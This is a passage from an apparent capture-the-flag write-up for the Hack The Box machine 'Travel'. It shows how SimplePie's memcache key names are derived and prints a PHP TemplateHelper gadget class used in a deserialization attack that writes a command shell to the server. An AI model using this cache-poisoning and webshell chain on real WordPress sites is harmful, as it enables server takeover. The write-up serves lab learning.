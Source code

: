 Before we can move on to the PHP deserialization attack we have to find the correct key name that will be deserialized when we visit the RSS page with the **custom_feed_url** parameter. As we find during experimentation with Burp, the key name depends on the URI passed to the **custom_feed_url** parameter. The content of the XML file does not affect the key name which is generated.

For this next part we have to look at Wordpress's source code and Simplepie's source code to figure out how the key is constructed.

- https://github.com/WordPress/WordPress/blob/master/wp-includes/class-simplepie.php
- https://github.com/simplepie/simplepie/blob/ae49e2201b6da9c808e5dac437aca356a11831b4/library/SimplePie/Cache/Memcache.php
- https://github.com/simplepie/simplepie/blob/ae49e2201b6da9c808e5dac437aca356a11831b4/library/SimplePie/Cache/Base.php

The key name is constructed like this: `md5(md5($name)+":"+"spc")`

We can test this theory by computing the name and checking to see if it matches the first part of the key which is visible from the memcache debug info.

![image-20200519214505327](/assets/images/htb-writeup-travel/image-20200519214505327.png)

Good, so the key matches what we saw earlier. We'll need to use `xct_0375e1e45d8573844bcfb43ffe0ca90a` instead of the default value provided by Gopherus after we do the next part: serializing a payload that'll let us write a PHP command shell.

## PHP deserialization attack

As we saw in the source code and from the memcache dump, the content of the XML file gets converted to a PHP object, serialized then stored into the memcache database if the cache entry doesn't exist or has expired. When the next user visits the page to view the content, the values are pulled from the memcache and the object is deserialized. This is where we come in, we'll use the **TemplateHelper** class to write a PHP command shell into the **logs** directory.

We copy the class to another PHP file and add a line that creates the object, passing the filename and content as parameters then echo the output so we can use with Gopherus.

Note: It is also important to change the $file and $data variables to private otherwise they won't be included in the output. 

```php
<?php

class TemplateHelper
{

    private $file;
    private $data;

    public function __construct(string $file, string $data)
    {
        $this->init($file, $data);
    }

    public function __wakeup()
    {
        $this->init($this->file, $this->data);
    }

    private function init(string $file, string $data)
    {        
        $this->file = $file;
        $this->data = $data;
        file_put_contents(__DIR__.'/logs/'.$this->file, $this->data);
    }
```